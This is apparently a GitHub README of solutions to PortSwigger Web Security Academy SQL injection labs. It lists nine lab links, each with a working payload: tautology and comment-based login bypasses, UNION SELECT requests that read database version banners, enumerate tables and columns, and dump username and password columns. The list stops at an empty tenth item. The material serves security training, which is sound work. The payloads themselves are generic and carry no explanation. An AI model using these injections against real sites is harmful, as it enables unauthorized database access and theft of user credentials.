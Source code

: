 # PS-academy-Labs

1. https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
     /filter?category=Clothing%2c+shoes+and+accessories%27%20OR%201%3D1%20--%20
     ' OR 1=1 -- 
2. https://portswigger.net/web-security/sql-injection/lab-login-bypass
   Solution #1
   administrator
   ' OR 1=1 --

   Solution #2
   administrator'--
  
3. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle
   /filter?category=%27+UNION+SELECT+BANNER,NULL+FROM+v$version--
   
4. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft
     GET /filter?category='+UNION+SELECT+@@version,+NULL# HTTP/2

5. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
   GET /filter?category='+UNION+SELECT table_name,NULL FROM information_schema.tables-- HTTP/2
   GET /filter?category='+UNION+SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_ocqdko'-- HTTP/2
   GET /filter?category='+UNION+SELECT username_qrvfyq,password_ofzdsw FROM users_ocqdko-- HTTP/2


6. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
     GET /filter?category='+UNION+SELECT+NULL,NULL+FROM+dual--
     GET /filter?category='+UNION+SELECT+table_name,NULL+FROM+all_tables--
     GET /filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_BEQQVS'--
     GET /filter?category='+UNION+SELECT+USERNAME_YUOEWA,PASSWORD_XHXKTJ+FROM+USERS_BEQQVS--
   
7. https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text
     GET /filter?category=Pets'+UNION+SELECT+NULL,'2NSEW7',NULL--
   
8.  https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables
     GET /filter?category=Pets'+UNION+SELECT+username,password+FROM+users--
    
9.  https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column
     GET /filter?category=Pets'+UNION+SELECT+NULL,username||password+FROM+users--
10.  
